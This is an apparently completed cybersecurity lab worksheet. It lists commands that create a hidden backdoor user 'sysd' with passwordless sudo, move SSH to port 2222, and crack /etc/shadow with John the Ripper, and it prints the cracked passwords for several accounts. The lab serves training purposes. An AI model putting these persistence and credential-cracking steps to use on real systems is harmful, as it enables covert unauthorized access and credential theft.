 Step 1: Shadow People


Create a secret user named sysd. Make sure this user doesn't have a home folder created:

Your solution command here
sudo adduser --system --no-create-home sysd


Give your secret user a password:

Your solution command here
sudo passwd sysd


Give your secret user a system UID < 1000:

Your solution command here
sudo usermod -u 888 sysd


Give your secret user the same GID:

Your solution command here
sudo usermod -g 888 sysd


Give your secret user full sudo access without the need for a password:

Your solution command here
sudo visudo
sysd ALL=(ALL) NOPASSWD: ALL


Test that sudo access works without your password:
Your bash commands here
sudo -l

Step 2: Smooth Sailing


Edit the sshd_config file:
Your bash commands here
sudo nano /etc/ssh/sshd_config
Port 2222


Step 3: Testing Your Configuration Update


Restart the SSH service:

Your solution command here
systemctl restart ssh.service


Exit the root account:

Your solution command here
exit


SSH to the target machine using your sysd account and port 2222:

Your solution command here
ssh sysd@192.168.6.105 -p 2222


Use sudo to switch to the root user:

Your solution command here
sudo su


Step 4: Crack All the Passwords


SSH back to the system using your sysd account and port 2222:

Your solution command here
ssh sysd@192.168.6.105 -p 2222


Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

Your solution command here
sudo su
john /etc/shadow
sysadmin:passw0rd
student:Goodluck!
mitnik:trustno1
babbage:freedom
lovelace:dragon
stallman:computer
turing:lakers
